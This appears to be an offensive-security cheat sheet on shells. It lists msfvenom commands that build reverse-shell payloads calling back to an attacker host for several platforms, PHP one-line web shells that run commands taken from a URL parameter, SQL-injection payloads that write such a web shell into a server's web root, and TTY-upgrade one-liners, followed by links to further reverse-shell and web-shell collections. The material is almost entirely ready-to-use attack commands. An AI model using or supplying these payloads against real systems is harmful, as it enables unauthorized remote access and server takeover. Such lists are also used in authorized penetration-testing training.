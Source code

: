 # Shells 

Set your Netcat listening shell on an allowed port
Use a port that is likely allowed via outbound firewall rules on the target network, e.g. 80 / 443

# Msfvenom
#Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=443 -f elf > shell.elf
# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f raw > shell.php
# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=443 -f asp > shell.asp
# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f war > shell.war
# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f raw > shell.jsp
# Exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=445 -f exe -o shell_reverse.exe

# Interactive TTY Shell
# python
python -c 'import pty; pty.spawn("/bin/sh")'
# Echo
echo 'os.system('/bin/bash')'
# sh
/bin/sh -i
# bash
/bin/bash -i

# PHP
<?php system($_GET["cmd"]); ?>
<?php echo shell_exec($_GET["cmd"]); ?>




# Shell From SQL Injection
# windows
?id=1 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'
# linux
?id=1 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'




# Other Reverse Shell references
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://resources.infosecinstitute.com/icmp-reverse-shell/#gref

https://highon.coffee/blog/reverse-shell-cheat-sheet/

http://pentestmonkey.net/tools/web-shells/php-reverse-shell

http://pentestmonkey.net/tools/web-shells/perl-reverse-shell

https://github.com/BlackArch/webshells

https://github.com/tennc/webshell/tree/master/php/b374k

https://github.com/tennc/webshell/tree/master/php/PHPshell/c99shell

http://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/

http://securityweekly.com/2011/10/23/python-one-line-shell-code/
